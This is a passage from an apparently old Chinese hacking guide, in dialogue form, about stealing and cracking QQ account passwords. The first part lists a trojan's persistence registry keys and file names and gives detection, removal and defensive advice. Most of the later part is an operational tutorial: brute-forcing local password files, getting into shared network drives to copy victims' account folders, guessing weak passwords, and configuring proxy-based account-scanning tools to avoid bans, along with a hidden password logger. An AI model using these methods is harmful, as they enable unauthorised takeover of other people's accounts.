HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServices\sysreg
"C:\windows\system\sysreg.exe"
```

最可怕的是系统正常运行后又会自动在 `system` 中增加第四个分身 `netw3c.exe`，同时在注册表同步添加一个开机运行项。

```text
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run\netw3c
"C:\windows\system\netw3c.exe"
```

如果清除时漏掉一个，那么程序又会自动复制全部分身，并重新添加注册表。小朋友注意了，这属于专业人士的功夫，请不要随便尝试，否则后果自负。

- 启动：开机自动驻留后台运行。
- 外在表现：`system` 目录中增加了 4 个文件：
  - `C:\WINDOWS\SYSTEM\sysreg.exe`
  - `C:\WINDOWS\SYSTEM\regservice32.exe`
  - `C:\windows\system\netw3c.exe`
  - `C:\WINDOWS\SYSTEM\rasint.dll`
- 其中前三个图标均为“眼睛”，大小约 370K。

对策：重启进入纯 DOS，删除 Windows 中 `system` 目录下 `sysreg.exe`、`regservice32.exe`、`netw3c.exe`、`rasint.dll` 四个文件。

然后删除注册表中的：

```text
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run\regservice
"C:\windows\system\regservice32.exe"

HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServices\sysreg
"C:\windows\system\sysreg.exe"

HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run\netw3c
"C:\windows\system\netw3c.exe"
```

上面步骤千万不可颠来倒去！因为软件自我保护性很强，先删注册表就无法彻底根除监听程序，在你启动时系统会自动恢复刚删除项。

综述：尽管作者最终跟踪破解了其盗窃原理，但手法狡猾，具有狐狸般特性，可视为典型专家级盗窃程序。

> “了解一定的产品了，就要善于总结，这样才能……”  
> “由感性认识上升到理性认识，从而才能再回到感性认识，从而……”  
> （对话段落）“刚才就唠了大半天了。”、“刚才说过吗？”、“总……结”、“又来！？”。

从上面例子不难看出，OICQ 密码盗窃程序无非两类：一是外壳程序（如 OICQTHIEF），二是后台程序。外壳程序隐蔽性较差，后台程序一般隐藏更好且开机自动运行，危害性更大。

为了便于识别，对上述程序特征和判断方法做归纳总结，作为工作中的经验积累。

### △ 文件判断

- 进入 OICQ 目录，出现 `O.EXE`：说明感染 oicqthief 盗窃程序。
- 进入 `Windows\system` 目录：
  - 出现 `smaxinte.exe` 或 `internat.exe`（异常图标）：说明感染 QQ 密码侦探。
  - 出现 `QQSPY40.EXE`：说明感染 QQspy。
  - 出现 `sysreg.exe`、`regservice32.exe`、`netw3c.exe`、`rasint.dll`：说明感染 Qeyes 潜伏猎手。

### △ 注册表判断

- 运行 `regedit`，进入 `HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run`：
  - 默认键为 `internat`：说明感染 QQ 密码侦探。
  - 出现 `OICQPASS` 键：说明感染 `QQSPY40.EXE`。
  - 出现 `regservice` 或 `netw3c`：说明感染 Qeyes 潜伏猎手。

#### 2.1.5 骗局防卫战

“你讲了这么多东西，搞得俺都不敢开机子了，咋办啊！”阿瓜那个胆战心惊。

榕哥吞吞口水，百般无奈地看着阿瓜的穷酸可怜样，接着说：“follow me！”

密码本地窃取工具在后台以隐藏进程的方式运行，就是把自己隐藏了，让你不能看到它的运行。就好像有一个舞台，上面有正在表演的节目，也有后台正在准备或进行的工作。而这些程序呢，就专挑后台干点人家看不到的勾当，这样你就无从发现它。当然也就不会想着摆平它了。（卑鄙吧？）当然了！这类东西肯定不敢跟你讲什么光明正大了，不然它还有生存的空间吗？这叫为了生存，只有“苟且偷生”。程序寄存在系统文件夹下，运行时没有任何征兆，比暗器还暗。真可谓“防不胜防”。

如果等到中了招再去找解决的办法，无非是亡羊补牢，不是什么好主意，最多知道悔之晚矣，学会吃一堑，长一智。这些的话，长远来讲可能还是大大的有用的。但是人都很现实的嘛，眼前的都摆平不了，还有何颜面苟活于世。

“那要怎么办呢？”

“最好的防范方法当然是‘防患于未然’，养成一个好的QQ的使用习惯。”

现在就来对QQ做一番详细点的解释。

### ① QQ的密码保护

这个功能很熟悉了吧，现在的QQ一天到晚都在叫嚣这个玩意儿。可以让你在密码被盗，或者忘记密码时找回失去的密码，提高了使用QQ的安全性，是保护自己号码的必由途径。

如果你还没有申请，请马上去  
http://service.tencent.com/reg/register.shtml  
申请密码保护，并认真地填写每一项。一定要填写并牢记你的安全E-Mail（最好是没有POP3的Email邮箱）以便接收失去的密码。

### ② 在公众场合使用QQ

如果是在网吧这种公众场合使用QQ，在打开之前一定要检查系统中是否有可疑的进程在运行。有的话，就尽可能地把它清除掉。即使不能清除，也要利用“WINDOWS优化大师”之类的软件杀掉木马进程（重启以后它运不运行无所谓，反正那时候就不是你在用了）。

如果没有发现可疑的进程，仍然不要掉以轻心。登录时，为以防万一，使用“注册向导”登录，有的窃取工具无法截获通过这种途径输入的密码。

有的网吧装了网吧管理软件，让你无法使用Windows的大部分功能。其实，网吧管理软件也不是牢不可破的，还是有方法绕过，不过不在本篇的讨论范围内，请参阅其它章节。也不排除网吧管理者安装木马来“黑”你的可能啊！

##### ③ 平时的使用习惯

安装一个可靠的防火墙，来阻挡因特网上的不安全因素，如诺顿赛门铁克（SYMANTEC）的诺顿网络安全特警（Norton Internet Security）、金山毒霸、天网防火墙等等，在后续章节会有介绍。

在上网冲浪时，经常要下载回很多的软件、Flash动画；在自己的信箱里，经常会收到附在信里的可执行附件，这些都是安全隐患。它们很可能是木马程序或是被捆绑了木马程序，如果大意地运行，就中了攻击者的奸计。所以应该去知名、值得信赖的站点下载文件，避免从不了解的网站上随意下载。有些文件名字很吸引人，让你禁不住想打开看看，建议你先用最新的杀毒软件查查毒再说。

经常监控开机自动运行程序、系统进程，及早发现木马。



2-1-21 发现捆绑了木马的程序

“至此，你对密码本地窃取工具应该有全面的了解了吧。”榕哥就要撒手，突然发现阿瓜又拿出珍藏版的“红牛”，立刻抖擞起精神：“下面再给你讲讲另外一种‘黑’密码的方法，密码的本地与远程破解。”

## 2.2 甘地运动！——密码的破解

密码的破解与密码的窃取不同，通常是指用甘地手法，即采用“非暴力不合作”运动，对QQ密码进行穷举，从而得到密码。本地破解工具作用于存储于硬盘上的个人信息文件，这些文件一般在QQ的安装目录下面（如 `c:\program files\tencent\******`，以号码为名的文件夹）。你的个人信息、聊天记录等大多在这里。远程破解工具则通过网络间接作用于远程机器上的个人信息文件。这是一种较早出现的QQ黑客工具，但随着腾讯对QQ的升级，已基本抹杀这类东西的生存价值。现在就对几个典型工具进行介绍，并给出防守它们的方案。



2-2-1 OICQ密码终结者

#### 2.2.1 地方保护主义

QQ在用户登录后，会在本地的QQ安装文件夹下建立一个与QQ号码同名的子文件夹。这里面存放用户聊天记录、好友名单，以及经过处理后保存的密码。这给别有用心者创造了机会，可通过暴力手段破解密码。在早期QQ版本中这种方法很有效：若密码过于简单（纯字母或纯数字，且位数较少）就很容易被破解。

> 顺便说一下：`OICQ密码终结者（OicqPassover）`就是一款很老的破解器，运行时界面如图2-2-1所示。

使用方法很简单：在安装有QQ的计算机上确定OICQ的解密目录，选择密码档所含字符集，再设置密码位数，点击“开始”即可。破解速度受机器速度与密码长度影响。在当时其速度可达每秒约20000次，若为纯数字或纯字母短密码，几分钟到几小时即可破出原形。

不过值得庆幸的是，这个工具后来基本“NG”了，最多只支持到OICQ2000 0425版。该版本早已退出历史舞台，除非作为收藏品，否则实用价值不大。因此需要别的方法配合工具来用。

首要条件是：你所在的机器开过你想要的QQ号。大致两种情况：一是该机确实曾登录过这个号码；二是通过共享入侵得到目标号码的整个目录并拷到你的OICQ目录下，这样在号码下拉列表中就能看到该号码。

网上硬盘共享最多的是网吧和公司。若能进入其OICQ目录或所在分区共享，可慢慢挑。若难判断某IP是否网吧，可用 `WhoCQII FULL` 探查指定IP上开启的OICQ；若同一IP打开一串QQ，十有八九是网吧。

`飘叶国际隧道 1.0`：用于入侵网络共享硬盘。使用它需安装Microsoft网络用户、网上邻居，并安装NETBEUI等协议后方可接入对等网。

- 第一步：输入目标IP，再输入猜测的共享名（共享分区或目录名）。若命中即可进入并选择目标号码目录。
- 第二步：开始破解。最常用方法是穷举/暴力破解。

推荐：`Pw Check 1.02`。据称用于破解某些共享软件注册码，本质上也是暴力破解器。

- 第一步：在按键一和按键二都选择 `Enter`，保存设置。
- 第二步：读取一个字典，打开OICQ，选择你想破解的号码，随意输入一个密码，选登录，它会弹出一个对话框“输入密码与上次成功登录的密码不一致，是否到服务器验证”（除了你运气好得没话说，一次对了，这个对话框就不会出现）。
- 第三步：选“否”，然后在“请再次输入登录密码”对话框的空白处按下 `*` 键，就开始破解了，再次按 `*` 键停止。停止后可以保存进度，以便下次继续。字典输入完后会自动停止。这个工具免费注册。


破解密码要用到字典，阿瓜你知道什么是字典吗？你真是！字典就是你所猜测密码的组合，格式通常为DIC、TXT，一行一个，破解器会逐行取出测试，直到密码正确或字典用完为止。关于字典生成的软件有很多，像：diction、jill、jackass11等等，生成的字典大小最好不要大于10Mb，要是字典过大可以用分割软件将其分成几个部分，否则容易死机！！！

但是，随着QQ版本的不断升级，它的本地文件的复杂程度也越来越高，以至于许多暴力破解工具都不得不退隐，那岂不是不再有这样的好东西了？真是太可惜了，这可是hacker同志们长期智慧的结晶啊，现在只能拿来展览用，可惜，可惜。

嘿嘿，那可不是吗？所谓“长江后浪推前浪，前浪死在沙滩上”。还有后浪嘛，一种新的远程破解工具应运而生。

### 2.2.2 飞跃维度！超时空传递——远程破解

远程破解的一层意思是通过网络访问远程的QQ本地信息文件。

我们现在使用的是一个称之为OICQhack（顾名思义，当然是黑人用的啦——废话！）的程序。它可在线破解一个或同时多个帐号的密码。作者号称速度极快。不过，想要成功，嘿嘿，还是够难的。

原因是：

- 一方面：QQ自身加密机制的健全；
- 另一方面：防火墙能轻易地阻挡住这种频繁的数据请求。

富有讽刺意义的是，在试验过程中，用它破解自己帐号的密码，且条件限制得很窄，居然也无功而返。既然此路不通，也不要多加留恋，就换一个方面来看看。

所以我们把焦点放到另外一种远程密码破解上——针对腾讯服务器的破解。

其中一种软件，如oicqpasssniff别出心裁，不以强攻为手段，而是四两拨千金，任你用如何难破的密码，都可在你输入密码登录QQ的瞬间偷偷记录下来。而你所要做的就是在别人上网之前运行该程序，然后在别人下网离开后到C盘根目录下查看一个名叫log.txt的文件，别人的密码早已乖乖地在那儿等候着你的到来了。该程序运行时，按 `Ctrl+Alt+Del` 也无法看到，真可谓“明枪易躲，暗箭难防”啊！再用一句话形容：“破解更出众，密码去无踪。”

这里还有些个人技巧，一起了解一下吧！

阿瓜。

去过腾讯的网站吗？腾讯的网站在哪里？（晕，我要走，别拦我！！）大哥！！！又来了，好吧，记住了，现在的腾讯网站URL是：tencent.com。

知道了这个有什么用，我早就知道了，啊啊，进入腾讯网站你能干什么？

我能找到我想要的号码，并且有机会得到它，你能吗？呵呵，不许乱说话，听话！来到tencent.com我们可以在上方找到“查找好友”，进入后有四种方法查找朋友，分别是根据号码、根据昵称、根据E-mail和复杂查找的方法。这里我们可以利用的有根据昵称和根据E-mail查找，（怎么得到密码？？？）别乱说话！！！真是，不知道我没有说完吗？

好了，现在你在“根据昵称查找好友”框里输入“111”看看有多少用户。呵呵，少说也得10万（怎么会这么多？）。啊啊，你说为什么？找几个用户打开详细资料看看，是不是有很多111啊！

昵称111，地区111，年龄111，email 111……要是让你输入的话，你会在密码栏里输入什么呢？（111好记嘛！）啊啊，怎么样，有什么感想，那么用这个号码然后用111去试试密码吧！八成是会成功的。（但是现在估计是不会的了，为什么？呵呵，因为很多人早就想到了这些，早就把能拿的都拿走了，但是也不是绝对，我估计现在很多8位的这类号码还是很多的，要是你不嫌烂，你费点工夫自己找吧，估计你一天能找个几十个。）

这样的号码固然很多，但是要从腾讯的网站上慢慢查找才能找到，并且也不是绝对的，那么该怎么办呢？（我知道现在有很多人用111和123456这样的弱智密码，就是查找太麻烦了），呵呵，你脑袋终于开窍了，知道有很多人用这个密码了啊！！！不错，现在确实有很多人用这样的弱智密码，我们怎么来搜集呢？

现在介绍另一种工具。早期的有画碟，提起这个就落泪啊！这个工具太好了，基本上没有误报。可以扫到很多好的号码，不过现在不能用了，真可怜。现在的天空葵也能实验弱智密码，并且可以用代理，就是速度没有原来的画碟快，并且经常有误报。qqexpro也是用代理的工具，因为软件自带详细的说明我就不浪费口水了，大家下载后先仔细读读readme文件，使用还是比较容易。

这一类的工具，也被称作“扫号软件”，是通过暴力破解的。用的是穷举法，模拟了QQ登录时的请求，不断试验已经定义好的一段QQ号码的密码。如果一不小心恰巧符合了，就记录在本地文件上，就得到了一个可用的QQ号码。

“扫号软件”因为避开了加密的本地文件，直接面向腾讯的服务器，因而较前一种远程破解工具更易成功。（在现在来说，面向对象的语言不就比面向过程的有前途得多吗？不信，你看看是不是满地都有人鼓吹面向对象是多么多么地好。）成为了当前密码远程破解工具中最活跃的一群。

- QQ Explorer；
- 天空葵QQ密码探索者；
- QQ Password Hacker。

“这些都是什么东西啊？”

“你听我说嘛，不许插嘴！”

“先来说说这个QQ Explorer：”

最新版本：QQExplorer ver1.26

优点：在目前的同类软件中，扫描速度可以说是最快的，只要你找到的代理够快，它可达到每秒扫1个号，并且支持多代理。不会像其它同类软件因为被ban（即因为发送了太多非法请求而被腾讯封杀）而停止扫描。配置文件简单明了。

缺点：占用资源较多。

使用方法：  
第一步：下载并解压QQExplorer，打开QQExplorer文件夹，会看到这样几个文件：



2-2-2 QQExplorer文件夹

第二步：我们打开配置文件 `QQEXPLORER.INI`。



```
① 探测范围
开始号码=A
结束号码=B

默认的A和B值包括了所有可能存在的QQ号码，但是这个范围实在太广大了，如果你想要一个位数少的号码，就应该把B值改小一点。另外，如果只想针对某一个号码，把A和B设定成同一值。
```

```
② 设置
校验号码=0
密码=

这里填入一个可用的QQ号码和密码。它可以判断你的代理是否能正常扫号。
```

```
测试密保=0
0 -> 程序探测所有号码
1 -> 程序只探测无密码保护号码
```

```
提示音=0
0 -> 探到正确密码时无提示音
1 -> 探到正确密码时有提示音
建议选择1，这样就可以边干别的边扫号了。
```

```
IP有效性测试=1
1 -> 在探测密码前测试代理服务器是否被ban，如不可用该代理将被程序剔除。
0 -> 不测试代理服务器的有效性
建议选择1，可以避免不必要的时间浪费。
```

```
自动转入单机扫描=0
1 -> 如果所有代理都被剔除，程序自动转入用本机的IP进行探测
0 -> 如果所有代理都被剔除，程序重新载入原来的代理列表进行探测，建议选择0，千万不要用自己的IP来扫号，万一被封就麻烦了。
```

```
Time Out=30
设定超时时限。超过设定值无响应的代理将被删除。如果可用的代理比较多，可以设得少一点；反之则设得大一些。
```

```
探测间隔时间=10
单机探测时，每次发送密码的时间间隔。不要设得太小，建议保留默认值。
```

【密码规则】

- 密码同号码 = 0  
  - 1 → 在密码列表中自动加入一个和号码相同的密码  
  - 0 → 不加入和号码相同的密码  
  - 这一设置是为了扩大搜索成功的可能性，建议选择1。

前缀=C，偏移量=D，后缀=E。假设QQ号码为Q，使用这个密码规则可以生成如下的密码：

```
C(Q+D)E
例如 C=love, Q=123400, D=56, E=YOU
生成的密码就是 love123456YOU。
```

> 傻瓜指方：  
> 1. D一定要是整数。  
> 2. 这部分设置也可以到程序界面中完成。

`proxy.txt` 是使用的代理服务器列表。可通过代理工具（如ProxyHunter）获取可用代理；也可手动编辑为“代理IP:端口”的格式，但建议通过QQ Explorer主程序界面添加。

> 傻瓜指方：`password.txt` 是使用的密码字典文件，是扫到号或扫不到号的关键。

常见的白痴型密码，可以根据搜集到的资料编排密码，也可以下载字典文件。下面进入QQ Explorer的主程序界面，看它个究竟。

程序上部界面可以在配置文件中预先设好。不要选择“不使用HTTP代理服务器”，否则会用自己的IP去扫号。代理服务器部分界面如图所示。



2-2-3 QQ Explorer的主程序界面

1. 在“服务器”“端口”中设好代理地址后，点击“增加&测试”，成功后会自动加入“代理服务器列表”。一般免费代理可将“用户名”“密码”留空。  
2. 在“自定义探测”中填入想要探测的QQ号码，点击“A”按钮添加；已存在的探测号码可用“D”删除。  
3. 下部界面可观察运行状态，并可设置是否开机自动运行。  
4. 全部设置完成后，点击“开始”按钮开始扫号，重点关注“通过验证”栏。

> 傻瓜指方：
> - 如果主界面自动删除了某些代理，说明这些代理不可用或速度慢。  
> - 如果主界面总是报错，多半是代理质量不好，可删除该代理。  
> - 想找可用代理，可去专门的代理网站。  
> - 使用的各个代理速度参差不齐时，耐心等待结果。

然后是……

“是天空……”阿瓜看到榕哥噎了他一眼，吓得把那个“葵花宝典”的“葵”吞了下去。

“这样，这小巧玲珑的QQ Explorer就给你说完了！”榕哥舔着嘴唇说，干得都不行了，真是难受啊。

“那还有天空葵QQ密码探索者和那个什么？”阿瓜倒也不傻，还记得有这么两个还没说，虽然他也可怜榕哥一把年纪了，如今混得嘴干舌燥，奄奄一息，但他更心疼自己的珍藏。所以，就假装不知道，能省的就省下吧！

榕哥心里一阵叫苦，又无奈于自己已经说了还有那么两种，只好继续：

### 【小档案】

最新版本：天空葵QQ密码探索者 beta 0.82

优点：提供了种子号码功能，使被ban的可能性减小。即使被ban后20分钟自动重试。可以昼夜扫描，不用人为参与。号码列表设置较宽松，灵活性大。可以完全在后台以隐藏进程方式运行。

缺点：只提供单代理搜索。

使用方法：下载并解压天空葵后，我们会在天空葵文件夹里看到如图2-2-4这样7个文件。



与QQ Explorer一样，首先打开配置文件 `skyflower.ini`，设置的内容也与QQ Explorer大同小异，我们列出相近的各个选项的对应关系给你参考。

| 天空葵QQ密码探索者 | QQE |
|---|---|
| Begin=800141 | 开始号码=A |
| End=28900239 | 结束号码=B |
| Interval=9 | 探测间隔时间=9 |
| JumpMiBao=0 | 测试密保=0 |
| PeoN=0 | 密码同号码=0 |

- 其它的配置选项：  
  - SeedNum=888888  
  - SeedPass=8888  
  - SeedInterval=10  

分别设置“种子”的号码、密码和投放种子的间隔。种子号和密码一定要输入正确，不然什么也扫不到。

- **HotKey=A**：设置在运行界面中选择“隐藏”后，呼出时使用的快捷键。默认是 `Ctrl+Alt+A`。如果要修改，一定要用大写字母。  
- **list.ini**：如果你要扫的号码彼此不连续，你可以将这些号码写入这个文件，并在扫号时将天空葵界面上的“从列表文件中取号”打上勾就可以了。  
- **password.ini**：密码字典文件。天空葵默认的password文件里，存放的是一些比较常见的白痴型密码，你可以根据你所获知的资料进行密码编辑。  
- **seed.ini**：种子号码。这里填入的号码和密码一定要是真实的，用来防止和判断IP是否被卡，可以填多个。  
- **Proxy.ini**：代理服务器填写框。

东西在手上不用是不行的，对不起“乡亲父老”啊！像这么恶毒的东东，不用更对不起自己啦！所以，不要犹豫。

第一步：打开主程序文件，出现如图2-2-5所示的界面。



第二步：点击“发送”按钮开始扫号。留意下面的信息窗口，如果扫到，会把号码和密码保存到 `result.txt` 中。

> ※ 可以打开三个以上的天空葵，进行多线程的扫号。


- 1. 检查网络连接是否畅通。  
- 2. 是否程序界面上的“从文件中取号”打了勾，而 `list.ini` 文件里却没有号码。

如果总是被 ban，只要把扫描两号码间隔时间（`skyflower.ini` 里的 `interval`）调长一些，便可避免。

如果天空菜一打开就自动关闭，说明两号码间隔时间大于种子号扫描时间；只要把扫描种子号码时间（`Seedinterval`）改成大于两号间隔时间（`interval`）便可解决。

“该说什么了？”

“问你哪~”阿瓜喊起来。  
“是……QQ password……”榕哥真不情愿。  
“快点说嘛~”

## 【软件档案】

最新版本：QQ Password Hacker 1.5 Beta 3。

优点：支持通过代理列表进行扫描，方便局域网内用户，同时可以突破某些时间限制，支持单号码、号码段列表扫描；支持校验号（种子号）检测功能。

缺点：误报比天空菜相对要多些，不支持代理的验证。

